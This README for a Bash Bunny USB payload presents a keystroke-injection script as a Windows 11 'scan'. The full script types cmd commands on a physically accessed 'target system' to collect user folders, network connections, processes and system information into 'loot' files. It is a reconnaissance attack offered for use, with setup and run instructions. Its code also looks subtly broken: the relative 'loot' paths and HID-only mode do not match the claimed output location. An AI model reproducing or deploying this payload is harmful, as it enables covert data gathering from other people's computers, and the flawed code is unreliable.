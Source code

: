 Bash Bunny Windows 11 Scan Payload README
Introduction

This Bash Bunny payload is designed to scan a Windows 11 system for suspicious files or data and save all information of interest to the loot folder on the Bash Bunny's storage device. The payload runs by executing a series of cmd commands that generate output files containing information about the target system.

This README file provides step-by-step instructions for setting up and running the payload on a target Windows 11 system using a Bash Bunny.
Requirements

To use this payload, you will need the following:

    A Bash Bunny device
    A Windows 11 target system to scan
    Physical access to the target system to insert the Bash Bunny

Setup

Follow these steps to set up the Bash Bunny for running the Windows 11 scan payload:

    Insert the Bash Bunny into your computer's USB port.
    Navigate to the payloads folder on the Bash Bunny's storage device.
    Create a new folder called Windows11Scan inside the payloads folder.
    Inside the Windows11Scan folder, create a new file called switch1, without any file extension.
    Copy and paste the following code into the switch1 file:

bash

#!/bin/bash
# Title: Windows 11 Scan Payload
# Author: Your Name
# Version: 1.0
# Description: Scans Windows 11 for suspicious files and data

# Setup
ATTACKMODE HID
LED SETUP

# Payload
QUACK GUI r
QUACK DELAY 500
QUACK STRING cmd /c "dir C:\Users /a /q > loot\users.txt"
QUACK ENTER
QUACK DELAY 500
QUACK STRING cmd /c "netstat -ano > loot\netstat.txt"
QUACK ENTER
QUACK DELAY 500
QUACK STRING cmd /c "tasklist /v > loot\tasklist.txt"
QUACK ENTER
QUACK DELAY 500
QUACK STRING cmd /c "systeminfo > loot\systeminfo.txt"
QUACK ENTER
QUACK DELAY 500

# Cleanup
LED FINISH

This code contains the Bash Bunny payload that performs the Windows 11 scan.

    Create a new folder called loot in the root directory of the Bash Bunny's storage device.

Running the Payload

To run the Windows 11 scan payload on a target system, follow these steps:

    Insert the Bash Bunny into an available USB port on the target Windows 11 system.
    Wait for the green LED on the Bash Bunny to turn off, indicating that the payload has finished executing.
    Remove the Bash Bunny from the USB port.
    Open the loot folder on the Bash Bunny's storage device to view the output files generated by the payload.

Output Files

The following files will be generated in the loot folder on the Bash Bunny's storage device:

    users.txt - contains a list of user accounts on the target system
    netstat.txt - contains a list of active network connections and associated processes
    tasklist.txt - contains a list of running processes and associated information
    systeminfo.txt - contains information about the target system, including hardware and operating system details.

Troubleshooting

If the payload does not seem to be running properly or generating output files, try the following:

    Ensure that the Bash Bunny is properly inserted into the target system's USB port and that the green LED turns off
